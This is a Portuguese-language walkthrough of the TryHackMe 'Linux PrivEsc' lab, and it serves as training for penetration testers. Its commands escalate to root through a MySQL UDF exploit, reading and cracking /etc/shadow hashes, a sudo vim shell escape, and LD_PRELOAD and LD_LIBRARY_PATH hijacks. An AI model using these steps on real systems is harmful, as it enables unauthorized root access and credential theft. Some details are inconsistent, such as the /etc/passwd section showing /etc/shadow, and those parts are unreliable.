

<div class="page"/>

# **Pós-Exploração - Linux PrivEsc | Sonael de A. Angelos Neto**

- ### **Escalação de Privilégios No Linux**

  A Escalação de privilégios em Linux refere-se ao processo de aumentar as permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Isso pode ser necessário para executar certas tarefas, como instalar software ou realizar alterações no sistema operacional que exigem privilégios de administrador.

  A Escalação de privilégios geralmente é feita por meio de vulnerabilidades de segurança ou explorações de software que permitem que um invasor obtenha acesso de nível mais alto do que o permitido. Essa é uma das principais razões pelas quais a segurança é uma preocupação importante em sistemas Linux e por que é importante manter o sistema operacional atualizado com as últimas correções de segurança.

  Para evitar a Escalação de privilégios não autorizada, é recomendável que os usuários e administradores de sistemas limitem o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usem ferramentas de segurança, como firewalls e antivírus, para proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

- ### **Quais são as formas de Escalação de Privilégios?**

  Existem diversas formas de elevar os privilégios em sistemas Linux, mas é importante ressaltar que a maioria dessas técnicas requer acesso ao sistema ou exploração de vulnerabilidades de segurança. Algumas das formas de elevar o privilégio em Linux são:

  - Explorar vulnerabilidades em softwares instalados no sistema.

  - Usar técnicas de engenharia social para obter informações de autenticação de usuários privilegiados.
  
  - Aproveitar-se de permissões inadequadas em arquivos ou diretórios.
  
  - Usar exploits de kernel para obter acesso root ao sistema.
  
  - Utilizar ferramentas especializadas de hacking que automatizam a busca e exploração de vulnerabilidades em sistemas Linux.
  
  - Usar técnicas de injeção de código para executar comandos maliciosos com privilégios de root.
  
  Para evitar a elevação de privilégios não autorizada, é importante manter o sistema atualizado com as últimas correções de segurança e limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas. Além disso, o uso de soluções de segurança, como firewalls e antivírus, também pode ajudar a proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

---

<div class="page"/>


## **<center>Sumário</center>**

  **Nesse documento iremos resolve a maquina do TryHackMe chamada "Linux PrivEsc".**

  1. #### ***<a href="#1">Deploy the Vulnerable Debian VM.</a>***
  2. #### ***<a href="#2">Service Exploits.</a>***
  3. #### ***<a href="#3">Weak File Permissions - Readable /etc/shadow.</a>***
  4. #### ***<a href="#4">Weak File Permissions - Writable /etc/shadow.</a>***
  5. #### ***<a href="#5">Weak File Permissions - Writable /etc/passwd.</a>***
  6. #### ***<a href="#6">Sudo - Shell Escape Sequences.</a>***
  7. #### ***<a href="#7">Sudo - Environment Variables.</a>***
  8. #### ***<a href="#8">Cron Jobs - File Permissions.</a>***
  9. #### ***<a href="#9">Cron Jobs - PATH Environment Variable.</a>***
  10. #### ***<a href="#10">Cron Jobs - Wildcards.</a>***
  11. #### ***<a href="#11">SUID / SGID Executables - Known Exploits.</a>***
  12. #### ***<a href="#12">SUID / SGID Executables - Shared Object Injection.</a>***
  13. #### ***<a href="#13">SUID / SGID Executables - Environment Variables.</a>***
  14. #### ***<a href="#14">SUID / SGID Executables - Abusing Shell Features (#1).</a>***
  15. #### ***<a href="#15">SUID / SGID Executables - Abusing Shell Features (#2).</a>***
  16. #### ***<a href="#16">Passwords & Keys - History Files.</a>***
  17. #### ***<a href="#17">Passwords & Keys - Config Files.</a>***
  18. #### ***<a href="#18">Passwords & Keys - SSH Keys.</a>***
  19. #### ***<a href="#19">NFS.</a>***
  20. #### ***<a href="#20">Kernel Exploits.</a>***
  21. #### ***<a href="#21">Privilege Escalation Scripts.</a>***


### **Complementos:**

   22. #### ***<a href="#22">Dificuldades.</a>***
   23. #### ***<a href="#23">Conclusão.</a>***
   24. #### ***<a href="#24">Referências.</a>***
   25. #### ***<a href="#25">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### mysql-udf
    - Utilizaremos o mysql-udf para criar uma função no banco de dados do MySQL.

- #### [gcc](https://gcc.gnu.org/)
    - Utilizaremos o gcc para compilar os código fonte.

- #### [Jhon The Ripper](https://www.openwall.com/john/)
    - Utilizaremos o Jhon The Ripper para quebrar hashs de senhas.

- #### msfvenom
    - Utilizaremos o msfvenom para gerar payloads.

- #### cve-2016-1531.sh
    - Utilizaremos o cve-2016-1531.sh para explorar a vulnerabilidade CVE-2016-1531.

- #### perl
    - Utilizaremos o perl para executar o script linux-exploit-suggester-2.pl.

- #### linux-exploit-suggester-2.pl
    - Utilizaremos o linux-exploit-suggester-2.pl para sugerir possíveis exploits para o sistema.

- #### c0w.c
    - Utilizaremos o c0w.c para explorar a vulnerabilidade CVE-2016-5195 (Dirty COW).

- #### preload.so
    - Utilizaremos o preload.so para explorar vulnerabilidades em variáveis de ambiente.

- #### library_path.c 
    - Utilizaremos o library_path.c para explorar vulnerabilidades em variáveis de ambiente.

<div class="page"/>

- #### libcalc.c 
    - Utilizaremos o libcalc.c para explorar vulnerabilidades em executáveis SUID / SGID.


---

## **<a id="1"> • Deploy the Vulnerable Debian VM.</a>**

O primeiro passo é acessar a máquina, para isso vamos utilizar o `ssh` usando o comando `ssh user@MACHINE_IP`. As credenciais são `user:password321`.


```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           04:05:07
╰──➤ ssh user@10.10.152.135 -oHostKeyAlgorithms=+ssh-rsa
The authenticity of host '10.10.152.135 (10.10.152.135)' can't be established.
RSA key fingerprint is SHA256:JwwPVfqC+8LPQda0B9wFLZzXCXcoAho6s8wYGjktAnk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.152.135' (RSA) to the list of known hosts.
user@10.10.152.135's password:
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 15 06:41:23 2020 from 192.168.1.125
user@debian:~$
```

E para completar esse passo, vamos executar o comando `id` e colar o resultado no campo de resposta.

```bash
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```



---

<div class="page"/>


## **<a id="2"> • Service Exploits.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de um serviço vulnerável.

O serviço MySQL está sendo executado como root e o usuário "root" do serviço não possui uma senha atribuída. Podemos usar um exploit popular que aproveita as funções definidas pelo usuário (UDFs) para executar comandos do sistema como root por meio do serviço MySQL.

Então vamos utilizar uma ferramenta que está disponível na maquina chamada `raptor_udf2.c` para explorar essa vulnerabilidade. A ferramenta está localizada em `/home/user/tools/mysql-udf`.

Para utilizar a ferramenta é necessário compilar o código fonte, para isso vamos utilizar o `GCC`.

```bash
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Agora vamos conectar ao serviço MySQL utilizando o `root` e com a senha em branco e criar uma função definida pelo usuário (UDF) chamada `do_system` que executará comandos do sistema.

```bash
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
+--------------------+
2 rows in set (0.00 sec)
```

<div class="page"/>

Vamos usar a tabela `mysql` para criar nossa função.

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)
```

Onde temos:

- `create table foo(line blob);` **->** *Cria uma tabela chamada `foo` com uma coluna chamada `line` do tipo `blob`.*
  
- `insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));` **->** *Insere o conteúdo do arquivo `raptor_udf2.so` na tabela `foo`.*
  
- `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';` **->** *Exporta o conteúdo da tabela `foo` para o arquivo `/usr/lib/mysql/plugin/raptor_udf2.so`.*
  
- `create function do_system returns integer soname 'raptor_udf2.so';` **->** *Cria uma função chamada `do_system` que retorna um inteiro e carrega o arquivo `/usr/lib/mysql/plugin/raptor_udf2.so`.*

Vamos agora usar a função `do_system` para copiar /bin/bash para /tmp/rootbash e definir a permissão SUID:

```bash
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.01 sec)
```

<div class="page"/>

Por fim vamos sair do serviço MySQL e executar o `/tmp/rootbash` com o parâmetro `-p` para obter uma shell como root.

```bash
mysql> exit
Bye
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# whoami
root
```

O laboratório pede que para remover o executável /tmp/rootbash e sair do shell root antes de continuar, pois nós criaremos esse arquivo novamente mais tarde na sala.

então vamos remover o arquivo e sair do shell root.

```bash
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# exit
exit
user@debian:~/tools/mysql-udf$
```

Agora basta clicar `Completed` para finalizar esse passo.

---

## **<a id="3"> • Weak File Permissions - Readable /etc/shadow.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de uma falha de permissão de arquivo.

O arquivo /etc/shadow contém hashes de senha de usuário e geralmente pode ser lido apenas pelo usuário root. No entanto, o arquivo /etc/shadow é legível por todos os usuários no sistema: 

```bash
user@debian:/$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

O arquivo /etc/shadow é legível por todos os usuários no sistema, mas não é gravável por qualquer um deles. Isso significa que, se um usuário não-root conseguir ler o arquivo /etc/shadow, ele poderá obter as senhas de outros usuários no sistema.

Então vamos usar o comando `cat` para ler o arquivo `/etc/shadow` e obter as senhas de outros usuários no sistema.

```bash
user@debian:/$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

Vamos salvar a hash de senha do usuário `root` em um arquivo chamado `root.hash` e utilizar o `John The Ripper` para quebrar a hash.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:43:56
╰──➤ echo \$6\$Tb/euwmK\$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0 > root.hash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:44:00
╰──➤ cat root.hash
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   04:44:21
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:01 DONE (2023-03-03 04:44) 0.6993g/s 1074p/s 1074c/s 1074C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Agora que temos a senha do usuário `root`, vamos usar o comando `su` para nos autenticar como root.

```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

Agora basta responder as perguntas desse passo:

1. What is the root user's password hash?

   A hash que achamos no arquivo `/etc/shadow`:
    >  $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0


2. What hashing algorithm was used to produce the root user's password hash?

   Ao utulizar o comando `john` para quebrar a hash, ele nos informa que foi utilizado o algoritmo `sha512crypt`:
    >  sha512crypt

3. What is the root user's password?

   A senha que achamos ao quebrar a hash:
    >  password123




---


## **<a id="4"> • Weak File Permissions - Writable /etc/shadow.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de uma falha de permissão de arquivo.

O arquivo `/etc/shadow` é um arquivo de senha que contém informações sobre todos os usuários do sistema. Ele é legível e gravável por todos os usuários no sistema. Isso significa que, um usuário não-root consegue escrever no arquivo `/etc/shadow` e alterar a senha de outros usuários no sistema.

```bash
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 844 Mar  3 03:04 /etc/shadow
```

Então vamos gerar uma nova hash de senha para o usuário `root` e alterar o arquivo `/etc/shadow`.

```bash
user@debian:~$ mkpasswd -m sha-512 sonael
$6$hVrk1ucKydnjnOE$vhFNK.TSuS0hw7iS6/L.KzCsjb6Bd6jzgJqOq/u/8iJh4Ai8FZ4suzdqvP5xVPtsgMJ3RDQP4C.jAvRTiVGFY/

user@debian:~$ cat /etc/shadow
root:$6$hVrk1ucKydnjnOE$vhFNK.TSuS0hw7iS6/L.KzCsjb6Bd6jzgJqOq/u/8iJh4Ai8FZ4suzdqvP5xVPtsgMJ3RDQP4C.jAvRTiVGFY/:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

Agora que temos a senha do usuário `root`, vamos usar o comando `su` para nos autenticar como root.

```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

Agora basta clicar no botão `Complete` para finalizar esse passo.

---

<div class="page"/>


## **<a id="5"> • Weak File Permissions - Writable /etc/passwd.</a>**

Aqui também vamos explorar a escalação de privilégios através de uma falha de permissão no arquivo `/etc/passwd`.

Dessa vez vamos gerar uma nova hash de senha para o usuário `root` utilizando o comando `openssl passwd` e alterar o arquivo `/etc/passwd`.

```bash
user@debian:~$ openssl passwd debian
mv3L0w8QW3fLk

user@debian:~$ cat /etc/shadow
root:mv3L0w8QW3fLk:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

Agora que temos a senha do usuário `root`, vamos usar o comando `su` para nos autenticar como root.

```bash
user@debian:~$ su root
Password:
root@debian:/home/user#
```

<div class="page"/>

Agora vamos responder a pergunta `Run the "id" command as the newroot user. What is the result?` com o resultado do comando `id`.

```bash
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```



---

## **<a id="6"> • Sudo - Shell Escape Sequences.</a>**

Aqui vamos explorar a escalação de privilégios através de uma falha de permissão no comando `sudo`.

Primeiro vamos listar os programas que o sudo permite que o nosso usuário execute:

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more

```

Vamos utilizar o site [GTFOBins](https://gtfobins.github.io/) para verificarmos se existe algum binário que possa nos ajudar a explorar essa falha.

Ao pesquisar por `vim` no site, encrontramos vários comandos para explorar a escalação de privilegios, dentre eles o comando `vim -c ':!/bin/sh'`:



Vamos utilizar esse comando para explorar a falha.

```bash
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# whoami
root
```

Agora vamos responder as perguntas desse passo:

1. How many programs is "user" allowed to run via sudo? 

    O comando `sudo -l` nos informa que o usuário `user` pode executar 11 programas com o sudo:
    >  11


2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

    O programa que não possui uma sequência de escape no GTFOBins é o `apache2`:
    >  apache2

Agora vamos clicar no botão `Complete` para finalizar esse passo.



---

## **<a id="7"> • Sudo - Environment Variables.</a>**

Aqui vamos explorar a escalação de privilégios através de uma falha de permissão no comando `sudo`.

Sudo pode ser configurado para herdar determinadas variáveis de ambiente do ambiente do usuário. Vamos utilizar o comando `sudo -l` para verificar quais variáveis de ambiente o sudo herda.

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

`LD_PRELOAD` e `LD_LIBRARY_PATH` são ambos herdados do ambiente do usuário. `LD_PRELOAD` carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. `LD_LIBRARY_PATH` fornece uma lista de diretórios onde as bibliotecas compartilhadas são procuradas primeiro.

Vamos criar um objeto compartilhado do arquivo `/home/user/tools/sudo/preload.c` utilizando o `gcc`

```bash
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Agora vamos executar o `nano` que temos permissão para executar via sudo, enquanto configuramos a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

Ao fazer isso uma shell root será aberta.

```bash
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so nano
root@debian:/home/user# whoami
root
```

<div class="page"/>

Outra forma de conseguir isso é executando o `ldd` no arquivo de programa apache2 para ver quais bibliotecas compartilhadas são usadas pelo programa:

```bash
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffa6042000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f1c1e41b000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f1c1e1f7000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f1c1dfbd000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f1c1dda1000)
        libc.so.6 => /lib/libc.so.6 (0x00007f1c1da35000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f1c1d830000)
        librt.so.1 => /lib/librt.so.1 (0x00007f1c1d628000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f1c1d3f1000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f1c1d1ec000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f1c1cfc4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f1c1e8d8000)
```

Vamos criar um objeto compartilhado com o mesmo nome de uma das bibliotecas listadas (`libcrypt.so.1`) usando o código localizado em `/home/user/tools/sudo/library_path.c`:

```bash
user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Agora camos executar o apache2 usando sudo, enquanto configura a variável de ambiente `LD_LIBRARY_PATH` para `/tmp` para que o apache2 carregue o objeto compartilhado que criamos:

```bash
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# whoami
root
```

E para concluir esse passo basta clicar no botão `Complete`.

---

## **<a id="8"> • Cron Jobs - File Permissions.</a>**

Nesse topico vamos explorar a escalação de privilégios através de uma falha nas Cron jobs.

Cron jobs são programas ou scripts que os usuários podem agendar para serem executados em horários ou intervalos específicos. Os arquivos da tabela cron (crontabs) armazenam a configuração para tarefas cron. O crontab de todo o sistema está localizado em /etc/crontab.

<div class="page"/>

Vamos verificar o conteúdo do arquivo `/etc/crontab`:

```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

O arquivo `/etc/crontab` contém uma entrada para o script `overwrite.sh` que é executado a cada minuto. Vamos verificar as permissões desse arquivo:

```bash
user@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

